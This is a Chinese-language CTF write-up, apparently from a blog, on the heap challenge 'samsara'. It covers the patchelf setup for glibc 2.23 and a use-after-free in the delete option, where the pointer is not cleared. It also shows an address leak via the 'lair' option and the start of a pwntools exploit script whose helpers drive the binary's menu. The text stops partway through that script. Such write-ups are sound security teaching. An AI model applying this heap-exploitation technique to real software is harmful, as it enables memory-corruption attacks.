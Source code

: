 拿了两个最简单的模板题作为实验

## samsara

先做必要的准备

```sh
patchelf --set-rpath /home/nova/Desktop/CTF/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/ --set-interpreter /home/nova/Desktop/CTF/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/ld-2.23.so samsara
```

![image-20220321150904705](https://oss.nova.gal/img/image-20220321150904705.png)

通过分析，我们可以知道几个功能的用途分别是`add`，`delete`，`edit`，值得注意的是，`delete`并不会修改`cnt`，也没有把指针置 0

还要关注的是`lair`和`kingdom`这两个选项，

观察可以发现，`lair`与`pwn`隔得很近

![image-20220321151231353](https://oss.nova.gal/img/image-20220321151231353.png)

我们能输出`lair`的地址，那么`pwn`的地址也自然可以获得了。

```python
from pwn import *

sh = process(["./samsara"])
context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'


def add():
    sh.recvuntil(b"choice > ")
    sh.sendline(b"1")
    sh.recvuntil(b"Captured.\n")


def delete(idx: int):
    sh.recvuntil(b"choice > ")
    sh.sendline(b"2")
    sh.recvuntil(b"Index:\n")
    sh.sendline(str(idx).encode())
    sh.recvuntil(b"Eaten.\n")


def edit(idx: int, content: bytes):
    sh.recvuntil(b"choice > ")
    sh.sendline(b"3")
    sh.recvuntil(b"Index:\n")
    sh.sendline(str(idx).encode())
    sh.recvuntil(b"Ingredient:\n")
    sh.sendline(content)
    sh.recvuntil(b"Cooked.")


def lair() -> int:
    sh.recvuntil(b"choice > ")
    sh.sendline(b"4")
    sh.recvuntil(b"Your lair is at: ")
    lair_addr = int(sh.recvuntil(b'\n', drop=True), 16)
    return lair_addr


def kingdom(content: int):
    sh.recvuntil(b"choice > ")
```